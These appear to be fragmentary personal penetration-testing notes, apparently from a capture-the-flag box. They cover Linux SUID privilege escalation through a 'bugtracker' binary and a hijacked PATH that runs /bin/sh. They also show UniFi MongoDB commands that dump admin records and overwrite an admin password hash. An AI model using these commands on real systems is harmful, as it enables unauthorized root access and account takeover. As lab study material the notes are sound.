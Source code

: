 https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation

Privilege escalation:
Linux
sudo -l <- try to obtain root
id <- check permissions, additional groups
find / -group bugtracker 2>/dev/null
ls -la /usr/bin/bugtracker && file /usr/bin/bugtracker

Commonly noted as SUID (Set owner User ID), the special permission for the user access
level has a single function: A file with SUID always executes as the user who owns the
file, regardless of the user passing the command. If the file owner doesn't have
execute permissions, then use an uppercase S here.
In our case, the binary 'bugtracker' is owned by root & we can execute it as root since
it has SUID set.

/tmp

/bin/sh
chmod +x cat
export PATH=/tmp:$PATH
echo "/bin/sh" > cat

//UNIFI MONGODB
ps aux | grep mongo
mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"`

crete password
mkpasswd -m sha-512 Password1234
mongo --port 27117 ace --eval 'db.admin.update({"_id":ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"$6$pgNniKC2xeXtTtRl$KqIpqj6FI8DGb9dXgc7vUCAeGuCWI3rCzKsopTZU5ncfE1F6XjEf.Faq/AecBR7x/ToDPw7bYrVth3kU3WkzS0"}})'







